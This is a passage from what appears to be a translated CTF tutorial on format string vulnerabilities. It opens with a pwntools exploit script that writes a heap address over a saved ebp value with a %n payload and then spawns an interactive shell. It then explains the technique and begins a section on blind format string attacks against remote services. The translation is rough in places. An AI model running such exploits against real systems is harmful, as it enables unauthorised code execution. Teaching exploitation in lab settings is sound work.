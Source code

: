 ```python
part1 = (heap_addr - 4) / 2

part2 = heap_addr - 4 - part1

payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'



#payload=fmtstr_payload(6,{ebp_addr:heap_addr})

##print payload

createcontact(io,'3333', '123456789', '300', payload)

printcontact (I)
io.recvuntil (&#39;Description:&#39;)
io.recvuntil (&#39;Description:&#39;)
##gdb.attach(sh)

log.success("get shell")

io.recvuntil (&#39;&gt;&gt;&gt;&#39;)
##get shell

io.sendline ( &#39;5&#39;)
io.interactive ()
```



It should be noted that this does not stabilize the shell because we have entered a string that is too long. But we have no way to control the address we want to enter in the front. It can only be this way.


Why do you need to print so much? Because the format string is not on the stack, even if we get the address of the ebp that needs to be changed, there is no way to write this address to the stack, use the $ symbol to locate him; because there is no way to locate, there is no way to use l \ll and other ways to write this address, so only print a lot.


## Format string blind hit


### Principle


The so-called format string blind typing means that only the interactive ip address and port are given. The corresponding binary file is not given to let us perform pwn. In fact, this is similar to BROP, but BROP uses stack overflow, and here We are using a format string vulnerability. In general, we follow the steps below


- Determine the number of bits in the program
- Identify the location of the vulnerability
-Use
